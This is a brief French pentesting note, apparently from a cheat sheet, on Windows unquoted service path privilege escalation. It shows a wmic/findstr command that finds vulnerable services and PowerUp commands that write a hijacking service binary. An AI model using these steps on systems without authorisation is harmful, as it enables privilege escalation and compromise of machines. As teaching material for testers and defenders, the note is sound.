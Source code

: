 Quand droit d'écriture mais pas de remplacement dans le dossier d'un service

CreateProcess prend un chemin pour l'executable.
Si il y a un espace alors il ajoute .exe à chaque espace jusqu'à ce qu'il trouve quelque chose.
**C:\Program Files\My Program\My Service\service.exe**

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Trouver les chemins avec espace en cmd:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# PowerUp
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
get-unquotedservice
Write-ServiceBinary -Name 'GammaService' -Path <HijackPath>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
